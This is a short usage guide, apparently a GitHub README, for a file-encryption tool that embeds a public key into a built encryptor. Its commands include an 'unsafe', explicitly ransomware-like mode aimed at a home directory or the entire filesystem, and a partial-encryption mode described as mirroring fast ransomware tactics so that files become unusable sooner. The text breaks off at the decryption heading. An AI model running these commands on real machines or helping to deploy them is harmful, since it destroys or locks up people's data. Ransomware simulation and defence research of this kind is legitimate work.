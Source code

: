# Quick Usage Guide

## 🚀 Fast Setup (3 Steps)

### 1. Generate Keys

```bash
make build-genkey
./build/genkey -name backup
```

**Output**: `private-backup`, `public-backup`

### 2. Build Encryptor

```bash
make build-encrypt-pub PUBKEY_B64="$(cat public-backup)"
```

**Output**: `./build/encrypt` (with embedded key)

### 3. Encrypt Files

```bash
# Safe mode (recommended)
./build/encrypt -dir /path/to/data -verbose

# UNSAFE mode (ransomware-like) - VERY DANGEROUS!
./build/encrypt -dir /home/user --unsafe -verbose

# ULTIMATE RANSOMWARE: Entire system - MAXIMUM DANGER!
./build/encrypt -dir / --unsafe -verbose
```

**Result**: All files encrypted (system files automatically skipped)

---

## ⚡ Speed Mode: Partial Encryption

Need a lighter touch for slower hardware? Add `--partial-encryption` to encrypt only the most critical 10–30% of every file. This mirrors fast ransomware tactics—files become unusable, but the process finishes much faster.

```bash
./build/encrypt -dir /path/to/data --partial-encryption -verbose
```

> ⚠️ **Reduced security:** Large portions of each file remain visible. Use this only for simulations or when performance takes priority.

---

## 🔓 Decrypt Files
